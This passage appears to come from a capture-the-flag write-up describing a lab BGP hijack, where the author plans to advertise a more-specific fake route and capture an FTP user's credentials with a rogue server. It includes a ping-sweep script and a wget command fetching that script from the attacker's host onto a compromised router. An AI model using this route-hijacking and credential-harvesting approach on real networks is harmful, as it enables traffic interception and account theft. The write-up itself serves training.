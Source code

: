 #### Updated network diagram

From the network configuration files, we can deduce the **IP address of other AS routers**, as well as the **subnets connected to these AS**. This gives the following updated diagram:

![Updated diagram]({{ "/assets/2019-03-16/updated-diagram.png" | absolute_url }} "Updated diagram")

### What's the plan?

* We know from the tickets on the web server, that there is **a valuable FTP server** in the **10.120.15.0/24 network**.

* Routes are **dynamically advertised via BGP** and we have control over a **BGP router**.

* The **priority of BGP routes** depends on the **size of the advertised subnet** (i.e. a route to 10.120.15.0/25 will be given a higher priority than one announcing 10.120.15.0/24).

If we sum up all of these assumptions, we should be able to **advertise a fake route to the FTP server** to our BGP neighbours so **the Nigerian Prince will try to connect to a server inside our own subnet**. Since we want to **steal his credentials**, we will need to **setup an FTP server** which will ask for a login and a password to anyone contacting it. Once those credentials stolen, we will stop advertising the fake route and connect to the real FTP server with the Nigerian Prince's logins.

Because a picture speaks a thousand words:

![Attack]({{ "/assets/2019-03-16/attack.png" | absolute_url }} "Attack")

Alright, it is time to move on to the realization.

### 10.120.15.0/24 scanning

We know the FTP server is somewhere inside the 10.120.15.0/24 subnet  but we don't have its **exact IP address**. A simple **bash script executing `ping` on the whole subnet** was enough to find out which hosts were up.

```bash
#!/bin/bash
if [ "$1" == "" ]
then
echo "Usage ./pingscript.sh [network]"
else
        for x in `seq 1 254`; do
                ping -c 1 $1.$x | grep "64 bytes" | cut -d" " -f4 | sed 's/.$//'
        done
fi
```

This script can be **uploaded to r1** using `wget` on a **local webserver running on our machine** that we have just set up with `python -m SimpleHTTPServer`.

```bash
root@r1:~# wget http://10.10.14.89:8000/pingscript.sh -O /tmp/script.sh
wget http://10.10.14.89:8000/pingscript.sh -O /tmp/script.sh
--2019-03-17 13:26:31--  http://10.10.14.89:8000/pingscript.sh
Connecting to 10.10.14.89:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 182 [text/x-sh]
Saving to: ‘/tmp/script.sh’

     0K                                                       100% 19.6M=0s

2019-03-17 13:26:31 (19.6 MB/s) - ‘/tmp/script.sh’ saved [182/182]
```
